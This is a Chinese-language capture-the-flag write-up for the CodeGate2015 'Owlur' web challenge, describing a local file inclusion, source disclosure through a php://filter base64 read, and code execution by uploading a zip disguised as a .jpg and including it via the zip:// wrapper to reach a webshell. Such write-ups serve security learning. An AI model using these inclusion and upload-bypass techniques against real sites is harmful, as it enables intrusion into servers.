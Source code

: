 ```yaml
---
layout: post
title: CodeGate2015 CTF - WEB200
---
```


#### Owlur - WEB200

> Description
> 
> http://54.65.205.135/owlur/
> 
> if you use a web scanner, your IP will get banned, no bruteforce required, take it easy.#### Desc

File upload success (.jpg): [http://54.65.205.135/owlur/index.php?page=view&id=q9DLZgl](http://54.65.205.135/owlur/index.php?page=view&id=q9DLZgl)

view-source: [http://54.65.205.135/owl/duzYZc5.jpg](view-source:http://54.65.205.135/owl/duzYZc5.jpg)

#### LFI

 - [http://54.65.205.135/owlur/index.php?page=view](http://54.65.205.135/owlur/index.php?page=view)
 - [http://54.65.205.135/owlur/index.php?page=index](http://54.65.205.135/owlur/index.php?page=inedx)
 
我们猜测 ```page``` 参数可包含文件，但当我们想要包含刚刚上传的恶意图片时，却发现 ```page``` 过滤了 ```http```, ```..```关键字，导致我们无法跳到/owl/目录下进行文件包含。比如我们这样做：

 - [http://54.65.205.135/owlur/index.php?page=/../../../../owl/duzYZc5.jpg%00](http://54.65.205.135/owlur/index.php?page=/../../../../owl/duzYZc5.jpg%00)
 
页面就会返回给我们：

                     / /****-- * *\
          //(((:<<<</:*********3\X*\((<
         /XX/CXC&CGG//**/--///X*V\**..g&
    (/VCC3gg0........*//X//(///V*C\*..888gg8g&3C<
    (3&gG&...........*..XXX/(((/*.\*.......G/08883X<`
    /(<C8 ...........*.XXXX////</..*...............3C^
       V/<^<(X88&V//((<<<<((<^<**...............X&&C
              `:/CCV/(((<<(/VVV/*..............(/C&/
               << ^^(/V33VX/VC&X*VC....:<<~<<<((X  `
               V/(/< ^ ^^:/X/((<<^^---V:~~<<(
                  3&                  .^-/
                  C  /\       /\        |
                 /C  \/       \/       //
     PLZ STOP     3                    |\
       HACKING    C                   /5*
                  V     /-----\       /
                  CG  |         |  <///<
                  VGV |         | ^(/X<^
                   &&<  \-----/  .((<(^
                    83(        .<(~`<<
                     8X`     .<<^` `((^
                    B@@C<.`^^`     ^(CG&C(<.``
         CG8B$@@@@@@@@@$(          ^^(0@@@@$83X<`
       B@@@@@@@@@@@@@@@@@8/       `<C$@@@@@@@@@@$&<
      @@@@@@@@@@@@@@@$$$@@@$$0888B@@@@@@@@@@@@@@@@@V`
    
Please stop hacking :(

但是我们可以通过这种方式来尝试读取 ```index.php```, ```view.php```, ```upload.php```的源代码：

 - http://54.65.205.135/owlur/index.php?page=php://filter/read=convert.base64-encode/resource=view
 
##### 源码分析

![http://ww3.sinaimg.cn/large/c334041bgw1eq6huu93caj20nn05i74h.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eq6huu93caj20nn05i74h.jpg)

    ➜  /tmp  echo -n "PD9waHAKJHBpYyA9ICRfUkVRVUVTVFsnaWQnXTsKCmlmKCRwaWMgPT0gIiIgfHwgJHBpYyA9PSAicmFuZG9tIikKewokcGljbmFtZSA9ICJwcmVsb2FkZWQtb3dscy8iIC4gcmFuZCgxLDE0KSAuICIuanBnIjsKfQoKZWxzZSAkcGljbmFtZSA9ICIvb3dsLyIgLiAkcGljIC4gIi5qcGciOwoKCgplY2hvICc8aW1nIHNyYz0iJyAuICRwaWNuYW1lIC4gJyI+JzsKCj8+Cg==" | base64 -D
    <?php
    $pic = $_REQUEST['id'];
    if($pic == "" || $pic == "random")
    {
    $picname = "preloaded-owls/" . rand(1,14) . ".jpg";
    }
    else $picname = "/owl/" . $pic . ".jpg";
    echo '<img src="' . $picname . '">';
    ?>
    
##### Upload.php (部分)

[http://54.65.205.135/owlur/index.php?page=php://filter/read=convert.base64-encode/resource=upload](http://54.65.205.135/owlur/index.php?page=php://filter/read=convert.base64-encode/resource=upload)

    $target_dir = "/var/www/owlur/owlur-upload-zzzzzz/";
    $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
    $uploadOk = 0;
    $imageFileType = pathinfo($target_file,PATHINFO_EXTENSION);
    $fsize = $_FILES['fileToUpload']['size'];
    $newid = RandomString();
    $newname = $newid . ".jpg";

这里有个有趣的变量 ```$target_dir```，长时候发现图片在 /owl/ 目录及 /owlur/owlur-upload-zzzzzz/ 目录均可访问，所以我们可以不用考虑 .. 的跨路径问题了；）

##### index.php (部分)

    if(strstr($p,"..") !== FALSE)
    die("<pre>$haq</pre>");

    if(stristr($p,"http") !== FALSE)
    die("<pre>$haq</pre>");

    if(stristr($p,"ftp") !== FALSE)
    die("<pre>$haq</pre>");

    if(strlen($p) >= 60)
    die("<pre>string > 60
    $haq</pre>");
    
这里可以发现对 ```page``` 参数进行了三个关键字的过滤，以及长度的过滤，通过上面发现的 /owlur-upload-zzzzzz/ 路径我们可直接绕过长度的限制，但是现在又面临另外一个问题，截断。

使用 ```%00```, ```////////////////////////////////```, ```.......................``` 等截断方法均失败，最后试了下 zip 协议截断终于成功：

1. 新建 test.php 里面编写 php 代码；
2. 将 test.php 压缩为 test.zip 后把 zip 的名字改成 test.jpg；
3. 上传 .jpg 上传，然后包含；

![http://ww1.sinaimg.cn/large/c334041bgw1eq6im8fhpkj20kt06y0u4.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eq6im8fhpkj20kt06y0u4.jpg)

phpinfo: [http://54.65.205.135/owlur/index.php?page=zip://owlur-upload-zzzzzz/ITbmhwn.jpg%23test](http://54.65.205.135/owlur/index.php?page=zip://owlur-upload-zzzzzz/ITbmhwn.jpg%23test)

![http://ww2.sinaimg.cn/large/c334041bgw1eq6iqq1zgaj20kw08mmy6.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eq6iqq1zgaj20kw08mmy6.jpg)

最后我们连接 ```webshell``` 后，发现 flag 静静的躺在根目录下：

![http://ww3.sinaimg.cn/large/c334041bgw1eq6irjcxrwj20m2056t95.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eq6irjcxrwj20m2056t95.jpg)
